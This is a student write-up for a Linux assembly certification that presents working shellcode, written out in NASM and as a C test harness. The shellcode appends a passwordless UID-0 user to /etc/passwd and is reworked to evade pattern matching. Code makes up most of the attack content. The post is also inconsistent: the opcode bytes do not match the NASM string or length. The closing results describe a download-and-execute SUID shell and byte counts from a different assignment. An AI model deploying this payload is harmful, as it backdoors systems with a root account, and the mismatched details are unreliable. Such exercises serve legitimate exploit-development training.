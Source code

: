 # Assignment 6: Append Passwd

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Append Passwd shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-561.php](http://shell-storm.org/shellcode/files/shellcode-561.php "").

This shellcode is meant to add a new system user to the `/etc/passwd` file.


### Shellcode Analysis

To begin, lets grab a copy of that shellcode, compile it, and trace it with GDB:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/passwd/gdb1.png "GDB")

As can be appreciated, the shellcode uses the JMP-CALL-POP technique to get the payload address on the stack. The payload in this case is is the following string:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/passwd/gdb2.png "Payload")

which is of course the file name and the user string to be appended. 

The shellcode then goes on to replace the `#` symbols in the payload by `\x00`s, effectively NULL-terminating both strings. Then, a file descriptor for `/etc/passwd` is created with the `open()` system call, and `toor::0:0:t00r:/root:/bin/bash` is appended with the `write()` system call. Finally, the program gracefully exits with the `exit()` system call. 


### Polymorphic Shellcode

To re-create this shellcode, several tweaks were applied to make the shellcode shorter. In no particular order:
- `/etc/passwd` is pushed on the stack, which changes the operations needed before the `open()` call
- `x::0:0::/:/bin/sh` is appended, which trims down a few bytes
- payload length is explicitly specified (not calculated at run time)
- additional steps, associated with the original shellcode, are cut and/or rewritten

The final version looks like this:

### a6-passwd.nasm
```nasm
; SLAE Assignment 6: Append Passwd (morphed)
; http://shell-storm.org/shellcode/files/shellcode-561.php
; Original Shellcode Length:	107 
; Morphed Shellcode Length:		74

global _start
section .text
_start:
	jmp short stage

append:
	pop esi
	cdq
	mov byte [esi+24], dl

	push byte 0x5 				; #define __NR_open 5
	pop eax 					; int open(const char *pathname, int flags);
	push edx
	push byte 0x64 				; d
	push word 0x7773			; ws
	push 0x7361702f				; sap/
	push 0x6374652f				; cte/
	mov ebx, esp 				; *pathname -> /etc/passwd
	xor ecx, ecx 		
	inc ecx 					; flags = 1		#define O_WRONLY        00000001
	mov ch, 0x4 				; flags = 401	#define O_NOCTTY        00000400
	int 0x80 					; open

	xchg eax, ebx 				; fd 
	push byte 0x4 				; #define __NR_write 4
	pop eax 					; ssize_t write(int fd, const void *buf, size_t count);
	mov ecx, esi 				; *buf -> x::0:0::/:/bin/sh
	push byte 0x11 				; length = 17 bytes
	pop edx 					; count = 17
	int 0x80 					; write

	push byte 0x1 				; #define __NR_exit 1
	pop eax 					; int exit(int status)
	int 0x80 					; exit

stage:
	call append
	usr: db "x::0:0::/:/bin/sh"
```

Let's compile, link, and get the opcodes:

```
nasm -f elf32 -o a6-passwd.o a6-passwd.nasm
ld -o a6-passwd a6-passwd.o 
objdump -d ./a6-passwd |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
```

Set the opcodes for execution:

### passwd.c
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x32\x5e\x99\x88\x56\x18\x6a\x05\x58\x52\x6a\x64\x66\x68\x73\x77\x68\x2f\x70\x61\x73\x68\x2f\x65\x74\x63\x89\xe3\x31\xc9\x41\xb5\x04\xcd\x80\x93\x6a\x04\x58\x89\xf1\x6a\x19\x5a\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xc9\xff\xff\xff\x74\x6f\x6f\x72\x3a\x3a\x30\x3a\x30\x3a\x3a\x2f\x72\x6f\x6f\x74\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x43";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

And finally compile and execute:

```

```


Let us go ahead and check if everything works as it should.

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/dlexec/example.png "Example")

It looks like everything works as expected. The file is correctly downloaded, chmod'ed and executed, giving us a SUID root shell.

Now let's go on to check how the morphed version compares to the original shellcode.

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/dlexec/length.png "Shellcode length")

Our morphed version is 96 bytes in length, which is of course 12 bytes shorter than the original 108 bytes. 




